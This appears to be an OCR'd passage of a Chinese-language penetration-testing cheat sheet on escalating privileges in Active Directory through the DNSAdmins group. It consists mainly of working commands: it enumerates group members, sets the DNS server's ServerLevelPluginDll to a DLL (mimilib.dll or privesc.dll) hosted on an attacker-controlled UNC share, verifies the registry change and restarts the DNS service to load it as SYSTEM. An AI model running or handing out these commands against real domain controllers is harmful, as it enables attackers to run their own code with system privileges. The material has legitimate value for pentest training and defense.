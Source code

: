 	DNSAdmins 组的成员可以加载具有 dns.exe (SYSTEM) 权限的任意 DLL。
	需要权限才能重新启动 DNS 服务。
	枚举 DNSAdmins 组的成员
	>Get-NetGroupMember -GroupName "DNSAdmins"
	>Get-ADGroupMember -Identity DNSAdmins
	更改 DNS 服务加载的 dll
	使用RSAT
	>dnscmd <servername> /config /serverlevelplugindll \\attacker_IP\dll\mimilib.dll
	>dnscmd 10.10.10.11 /config /serverlevelplugindll \\10.10.10.10\exploit\privesc.dll
	使用DNSServer模块
	$dnsettings = Get-DnsServerSetting -ComputerName <servername> -Verbose -All
	$dnsettings.ServerLevelPluginDll = "\attacker_IP\dll\mimilib.dll"
	Set-DnsServerSetting -InputObject $dnsettings -ComputerName <servername> -Verbose
	检查上一条命令是否成功
	>Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
	重新启动 DNS
	>sc \\dc01 stop dns
	>sc \\dc01 start dns